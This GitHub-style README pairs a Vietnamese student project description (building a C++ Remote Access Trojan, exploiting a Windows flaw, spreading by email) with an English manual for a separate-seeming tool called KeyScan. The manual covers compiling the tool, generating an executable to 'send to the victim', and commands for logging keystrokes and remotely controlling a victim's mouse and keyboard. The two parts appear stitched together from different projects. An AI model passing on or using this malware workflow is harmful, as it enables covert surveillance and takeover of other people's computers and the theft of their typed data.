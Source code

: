 

# Project Title

Nghiên cứu, phát triển chương trình mã độc Remote Access Trojan

# PTITHCM_TTCS_NHOM1

Nội Dung:
- Tìm hiểu và xây dựng chương trình mã độc RAT, bằng ngôn ngữ C++ nhằm mục đích học tập & nghiên cứu
- Tìm hiểu và ứng dụng khai thác một lỗ hổng bảo mật trên Windows để triển khai mã độc.
- Tìm hiểu cách một chương trình mã độc được phát tán qua Email.
- 
Thực nghiệm:
- Xây dựng mã độc Remote Access Trojan và server quản lý tập trung máy tính nạn nhân


Nhóm 1 - Thành viên:
- Đinh Quốc Toàn 
- Lý Thanh Tuấn
- Đào Duy Tâm
- Nguyễn Trần Hùng Biện
- Đinh Văn Hậu

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscan
./keyscan
```
# Installation on Windows
```
g++ main.cpp -o keyscan.exe -lws2_32
.\keyscan.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git;
cd mingw-w64\n";
./configure --prefix=$PREFIX --without-crt;
DESTDIR=$PREFIX make install;
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program
SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
